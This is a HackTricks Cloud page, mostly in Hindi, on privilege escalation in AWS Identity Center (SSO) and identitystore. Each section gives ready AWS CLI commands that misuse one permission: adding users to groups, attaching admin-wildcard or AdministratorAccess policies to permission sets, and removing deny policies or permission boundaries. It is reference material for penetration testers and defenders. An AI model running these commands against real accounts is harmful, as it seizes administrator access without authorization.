 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

AWS Identity Center / AWS SSO के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
ध्यान दें कि **डिफ़ॉल्ट** रूप से, केवल **प्रबंधन खाता** से **अनुमतियों** वाले **उपयोगकर्ता** IAM पहचान केंद्र तक पहुँचने और **नियंत्रण** करने में सक्षम होंगे।\
अन्य खातों के उपयोगकर्ता केवल तभी अनुमति दे सकते हैं यदि खाता **प्रतिनिधि प्रशासक** है।\
[अधिक जानकारी के लिए दस्तावेज़ देखें।](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Reset Password~~

इस तरह के मामलों में विशेषाधिकार बढ़ाने का एक आसान तरीका यह होगा कि उपयोगकर्ताओं के पासवर्ड को रीसेट करने की अनुमति हो। दुर्भाग्यवश, केवल उपयोगकर्ता को पासवर्ड रीसेट करने के लिए एक ईमेल भेजना संभव है, इसलिए आपको उपयोगकर्ता के ईमेल तक पहुँच की आवश्यकता होगी।

### `identitystore:CreateGroupMembership`

इस अनुमति के साथ, एक उपयोगकर्ता को एक समूह के अंदर सेट करना संभव है ताकि वह समूह की सभी अनुमतियों को विरासत में ले सके। 

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

इस अनुमति के साथ एक हमलावर एक Permission Set को अतिरिक्त अनुमतियाँ दे सकता है जो उसके नियंत्रण में एक उपयोगकर्ता को दी गई है।

{% hint style="warning" %}
इन अनुमतियों का दुरुपयोग करने के लिए, आपको यह जानना आवश्यक है कि **एक ग्राहक प्रबंधित नीति का नाम जो सभी खातों के अंदर है** जो प्रभावित होने वाले हैं।
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

इस अनुमति के साथ एक हमलावर अपने नियंत्रण में एक उपयोगकर्ता को एक खाते के लिए एक अनुमति सेट दे सकता है।

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

उपयोगकर्ता को सौंपे गए एक दिए गए भूमिका नाम के लिए STS अल्पकालिक क्रेडेंशियल्स लौटाता है।

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

हालांकि, आपको एक एक्सेस टोकन की आवश्यकता है जिसे प्राप्त करने का मुझे यकीन नहीं है (TODO)।

### `sso:DetachManagedPolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से AWS प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति)** को हटाकर अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

इस अनुमति के साथ एक हमलावर निर्दिष्ट अनुमति सेट से ग्राहक प्रबंधित नीति के बीच संबंध को हटा सकता है। **एक प्रबंधित नीति (निषेध नीति) को हटाकर** अधिक विशेषाधिकार प्रदान करना संभव है।

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से इनलाइन नीति से अनुमतियों को हटाने की क्रिया कर सकता है। एक इनलाइन नीति (निषेध नीति) को अलग करके **अधिक विशेषाधिकार प्रदान करना संभव है**।

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

इस अनुमति के साथ एक हमलावर अनुमति सेट से अनुमति सीमा को हटा सकता है। यह **अनुमति सीमा से दी गई अनुमति सेट पर प्रतिबंधों को हटाकर अधिक विशेषाधिकार देने** की संभावना है।

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारा अनुसरण करें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
